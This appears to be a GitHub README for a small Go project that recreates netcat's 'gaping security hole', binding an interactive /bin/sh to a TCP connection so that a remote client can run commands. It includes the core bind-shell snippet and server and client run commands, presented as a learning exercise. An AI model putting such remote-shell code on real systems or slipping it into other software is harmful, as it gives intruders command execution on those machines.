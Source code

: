 # Netcat gaping security hole

Creating the Netcat gaping security hole in Golang.

## What was Netcat Gaping Security Hole?
Netcat is the TCP/IP swiss army knife, a more flexible, scriptable version of Telnet. It contains a feature
that allows stdin and stdout of any arbitary program to be redirected over TCP, enabling an attacker to run any shell
scripts. 

### Creating in Golang
With creating a Pipe, I allow stdin and stdout to redirected over TCP:
```go
// creating the shell
cmd := exec.Command("/bin/sh", "-i")
// creating our pipeline
rp, wp := io.Pipe()

// binding stdin and stdout to user connection and pipe output
cmd.Stdin = conn
cmd.Stdout = wp

// copy the input into pipeline
go io.Copy(conn, rp)
```

### How to run?
Server:
```go 
go run main.go
```

Client:
```go 
go run client/client.go
```

